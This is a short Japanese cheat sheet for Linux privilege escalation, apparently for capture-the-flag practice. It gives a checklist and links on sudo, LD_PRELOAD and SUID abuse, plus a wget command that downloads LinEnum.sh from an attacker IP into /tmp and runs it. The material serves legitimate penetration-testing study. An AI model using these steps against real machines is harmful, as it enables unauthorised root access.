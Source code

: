 # Linux Privilege Escalation

## 実行フロー
1. sudo -l の実行
2. LinEnum の実行
3. ホームディレクトリの確認（一般ユーザーの存在や権限チェック、SSH 秘密鍵やフラグ、手がかりとなるファイルの確認）
4. Cron の確認
5. SUID / SGID の確認
6. Bash のバージョン確認
7. Sudo のバージョン確認


## 1. sudo -l の実行
### root 権限で実行可能なコマンドが存在する場合
[GTFOBins](https://gtfobins.github.io/) で検索

### ユーザー環境から継承された環境変数が存在する場合
- LD_PRELOAD が存在する場合は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_preload-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)  
- LD_LIBRARY_PATH が存在する場合は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

## 2. LinEnum の実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh
cd /tmp && ./LinEnum.sh
```

## 3. ホームディレクトリの確認
- [ ] 一般ユーザーの存在や権限チェック、SSH 秘密鍵やフラグ、手がかりとなるファイルの確認）
